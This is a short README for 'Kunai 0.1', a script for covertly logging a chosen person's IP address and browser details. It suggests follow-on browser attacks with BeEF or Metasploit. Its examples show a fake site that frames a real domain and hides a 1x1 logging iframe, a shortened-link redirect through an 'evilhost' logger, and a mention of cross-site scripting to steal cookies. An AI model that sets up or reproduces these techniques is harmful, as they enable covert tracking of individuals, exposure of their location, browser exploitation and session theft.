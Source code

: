 #Kunai 0.1
Sometimes there is a need to obtain ip address of specific person. This is what you need in such situations.

Kunai is a simple script which collects many informations about a visitor and save output to file; furthermore, you may try to perform attacks on user browser, using beef or metasploit. 

In order to grab as many informations as possible, script detects whenever javascript is enabled to obtain more details about a visitor. For example, you can include this script in iframe, or perform redirects, to avoid detection of suspicious activities. Script can notify you via email about new log.

#Examples
- Fake website (more stable & better for autopwn & beef):
```
<iframe src="https://www.coloradopotguide.com/" style="border: 0; width: 100%; height: 100%"></iframe>
<iframe src="log.php" width="1" height="1" frameborder="0" ></iframe>
```
- Redirect (better for quick ip catching):
```
goo.gl/urlink -> evilhost/log.php -> site.com/kitty.png
```
- Cross Site Scripting (cookie stealing)
